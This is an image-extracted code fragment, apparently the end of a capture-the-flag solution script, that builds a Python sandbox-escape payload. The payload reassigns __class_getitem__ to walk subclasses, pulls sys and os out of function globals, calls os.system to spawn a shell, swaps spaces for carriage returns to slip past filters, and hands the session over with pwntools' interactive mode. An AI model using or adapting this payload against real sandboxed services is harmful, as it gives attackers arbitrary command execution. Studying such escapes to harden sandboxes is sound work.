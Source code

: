 ```python
        # _.__class_getitem__ becomes type.__subclasses__
        + "type:=[].__class__.__class__,[None for _.__class_getitem__ in [type.__subclasses__]],"
        # locate dict: type.__subclasses__([].__class__.__base__))[D]
        + "dict:=_[[].__class__.__base__][D],"
        # locate list
        + "list:=_[[].__class__.__base__][L],"
        # locate Printer
        + "Printer:=_[[].__class__.__base__][P],"
        # locate Helper
        + "Helper:=_[[].__class__.__base__][H],"
        # read help_text
        + "S:=Helper.__doc__,"
        # _.__class_getitem__ becomes dict.values
        + "[None for _.__class_getitem__ in [dict.values]],"
        # values = dict.values(Printer.__init__.__globals)
        + "values:=_[Printer.__init__.__globals__],"
        # _.__class_getitem__ becomes list
        + "[None for _.__class_getitem__ in [list]],"
        # values = list(values)
        + "values:=_[values],"
        # sys = values[-4]
        + "sys:=values[True-True-True-True-True-True],"
        # os = sys.modules["os"]
        + f"os:=sys.modules[{synthesize("os")}],"
        # _.__class_getitem__ becomes os.system
        + "[None for _.__class_getitem__ in [os.system]],"
        + f"_[{synthesize("sh")}],"
        + "]"
    )
    .replace(" ", "\r")
    .encode()
)
p.interactive()
```
